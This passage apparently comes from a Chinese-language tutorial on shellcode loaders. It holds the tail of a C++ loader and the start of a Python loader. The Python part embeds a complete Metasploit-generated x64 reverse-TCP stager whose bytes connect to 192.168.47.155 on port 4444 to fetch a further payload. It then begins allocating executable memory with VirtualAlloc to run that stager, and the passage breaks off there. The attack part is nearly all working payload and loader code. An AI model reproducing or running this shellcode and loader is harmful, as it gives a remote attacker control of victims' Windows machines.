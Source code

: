 ```cpp

    // 等待新创建的线程执行完成
    WaitForSingleObject(hThread, INFINITE);

}
```



下述是申请内存加载的python版本代码:

```python
#使用MSF生成的python格式的ShellCode
buf =  b""
buf += b"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51"
buf += b"\x41\x50\x52\x48\x31\xd2\x51\x65\x48\x8b\x52\x60"
buf += b"\x56\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x0f\xb7"
buf += b"\x4a\x4a\x48\x8b\x72\x50\x4d\x31\xc9\x48\x31\xc0"
buf += b"\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
buf += b"\x01\xc1\xe2\xed\x52\x48\x8b\x52\x20\x41\x51\x8b"
buf += b"\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f"
buf += b"\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48"
buf += b"\x85\xc0\x74\x67\x48\x01\xd0\x44\x8b\x40\x20\x50"
buf += b"\x49\x01\xd0\x8b\x48\x18\xe3\x56\x48\xff\xc9\x4d"
buf += b"\x31\xc9\x41\x8b\x34\x88\x48\x01\xd6\x48\x31\xc0"
buf += b"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1"
buf += b"\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44"
buf += b"\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44"
buf += b"\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x41\x58"
buf += b"\x41\x58\x48\x01\xd0\x5e\x59\x5a\x41\x58\x41\x59"
buf += b"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
buf += b"\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49"
buf += b"\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49"
buf += b"\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5"
buf += b"\x49\xbc\x02\x00\x11\x5c\xc0\xa8\x2f\x9b\x41\x54"
buf += b"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07"
buf += b"\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41"
buf += b"\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50"
buf += b"\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89"
buf += b"\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf"
buf += b"\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89"
buf += b"\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5"
buf += b"\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00"
buf += b"\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9"
buf += b"\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8"
buf += b"\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20"
buf += b"\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00"
buf += b"\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4"
buf += b"\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31"
buf += b"\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba"
buf += b"\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58"
buf += b"\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00"
buf += b"\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41"
buf += b"\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c"
buf += b"\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6"
buf += b"\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2"
buf += b"\xf0\xb5\xa2\x56\xff\xd5"

#bytearray()函数返回一个新字节数组
shellcode= bytearray(buf)


#VirtualAlloc函数用来开辟内存空间,返回类型为ctypes.c_uint64
ctypes.windll.kernel32.VirtualAlloc.restype= ctypes.c_uint64
```